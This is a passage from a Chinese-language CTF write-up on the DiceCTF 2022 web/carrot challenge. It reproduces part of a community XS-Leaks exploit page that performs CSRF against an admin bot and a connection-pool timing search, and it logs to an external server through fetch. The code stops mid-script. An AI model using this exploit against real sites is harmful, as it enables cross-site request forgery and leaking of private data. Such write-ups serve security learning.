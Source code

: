 從 admin bot 的行為跟其他觀察看起來，就是個 XS-Leaks 的題目，只要能觀測到 search 的結果有沒有 flag 就行了，但難就難在想不出怎麼觀測。

這題官方沒有釋出而且似乎不會釋出解答（既然不釋出，可能是 Chrome 0 day 或是某個還沒修的 bug？），但賽後討論有人給了 XS-Leaks 的 exploit: https://gist.github.com/kunte0/47c2b53535605d842f984e77d6c63eed

完整程式碼：

``` html
<h1>DiceCTF 2022 web/carrot</h1>

<p>Step 1: CSRF the admin user, to set a super long title for the flag note (LAX + POST form only possible for 2 minutes after cookies is created)</p>
<button onclick="csrf()">do csrf</button>
<p>Step 2: XS-Search with <a href="https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/">connection-pool timing leak</a>, we have to use window.open (LAX cookie)</p>

<button onclick="popunder()">open popup</button>
<button onclick="exhaust_sockets()">open 255 connections</button>
<button onclick="oracle('dice{abc')">test search "abc" (slow)</button>
<button onclick="oracle('dice{xxx')">test search "xxx" (fast)</button>
<br>
<br>
<h2 id=output></h2>
<br>
<form id=x action="" method="POST" style="display:none;">
	<input type="text" name="title" placeholder="title">
	<br><br>
	<input type="number" name="priority" placeholder="priority" value=9999>
	<br><br>
	<textarea name="content" placeholder="content" rows="5" cols="20"></textarea>
	<br><br>
	<input type="submit" value="submit">
</form>

<script>

// this is send is used as logging
LOG = 'Starting'
// 255 in normal chrome, 99 in headless
SOCKETLIMIT = 255;
// default
TIMELIMIT = 800;
INSTANCE = ''
MYSERVER = `example.com`

const sleep = (ms) => {
    return new Promise(resolve => {
        setTimeout(resolve, ms);
    });
}

const time_fetch = async() => {
    let test_server_url = `https://${MYSERVER}/?${LOG}`;
    let start = window.performance.now();
    try {
        await fetch(test_server_url, {
            mode: 'no-cors'
        });
    } catch (e) {
        console.log(e);
    }
    let end = window.performance.now();
    return end - start;
}

```
